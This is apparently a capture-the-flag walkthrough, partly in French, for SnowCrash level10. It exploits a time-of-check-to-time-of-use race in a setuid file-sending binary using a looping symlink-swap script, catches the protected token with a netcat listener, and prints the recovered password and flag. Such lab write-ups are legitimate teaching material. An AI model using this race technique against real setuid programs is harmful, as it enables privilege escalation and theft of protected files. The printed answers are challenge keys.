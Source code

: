 # Level 10

</br></br>

## file list in home

```zsh
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

</br></br>

## execute file level10

```zsh
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
```
"./level10 file host" signifie que l'on doit mettre file et host en tant que parametre

</br></br>

## ltrace level10

```zsh
level10@SnowCrash:~$ ltrace ./level10
__libc_start_main(0x80486d4, 1, 0xbffff7f4, 0x8048970, 0x80489e0 <unfinished ...>
printf("%s file host\n\tsends file to ho"..., "./level10"./level10 file host
        sends file to host if you have access to it
)    = 65
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

</br></br>

## strings level10

```zsh
...
...
PTRh
UWVS
[^_]
%s file host
        sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
...
...
```

Connecter à 6969, on a besoin d'écouter la porte 6969

```zsh
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
level10@SnowCrash:~$ ltrace ./level10 token localhost
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                                = -1
printf("You don't have access to %s\n", "token"You don't have access to token
)  = 31
+++ exited (status 31) +++
```

on peut voir que level10 utilise access

</br></br>

## access

```zsh
level10@SnowCrash:~$ man access
...
...
 Warning: Using access() to check if a user is authorized to,  for  exam‐
       ple,  open a file before actually doing so using open(2) creates a secu‐
       rity hole, because the  user  might  exploit  the  short  time  interval
       between  checking  and opening the file to manipulate it.  For this rea‐
       son, the use of this system call should be  avoided.   (In  the  example
       just  described,  a safer alternative would be to temporarily switch the
       process's effective user ID to the real ID and then call open(2).)
...
...
```

on peut voir "security hole"!!!!!

```zsh
level10@SnowCrash:~$ ./level10 level10 localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
```

donc, on va executer token en utilisant race condition et symbolic link

</br></br>

## symbolic link et race condition

faire fichier link
ce fichier est symbolic link pour open (level10) et pour executer (token)

```zsh
level10@SnowCrash:$ mkdir /tmp/link
level10@SnowCrash:$ cd /tmp/link
level10@SnowCrash:/tmp/link$ vim makeSymLink.sh
level10@SnowCrash:/tmp/link$ ls
makeSymLink.sh
level10@SnowCrash:/tmp/link$ chmod +x ./makeSymLink.sh
level10@SnowCrash:/tmp/link$ ./makeSymLink.sh
```

```sh
#!/bin/bash

while true
do
  ln -fs ~/level10 ./link
  ln -fs ~/token ./link
done
```

</br></br>

## execute

```zsh
level10@SnowCrash:/tmp/link$ ./makeSymLink.sh
level10@SnowCrash:/tmp/link$ while true; do ./level10 /tmp/link/link localhost; done
```

```zsh
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link
You don't have access to /tmp/link/link
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link^C
```

```zsh
level10@SnowCrash:~$ nc -lk 6969
Connected!
Sending file .. Damn. Unable to open fileUnable to read from file: %s
wrote file!You don't have access to %s
0����Lx���p��������������zR|
                            P���F
                                 J
��                                tx?;*2$"@�����B
  8`|���a�A
           �A�A�N0JA�A
                      ��A�������������������
���o�Ё                                      Є
�
 ��H������o���o�(.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
```

</br></br>

## get token

```zsh
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$ su level11
Password:
level11@SnowCrash:~$
```
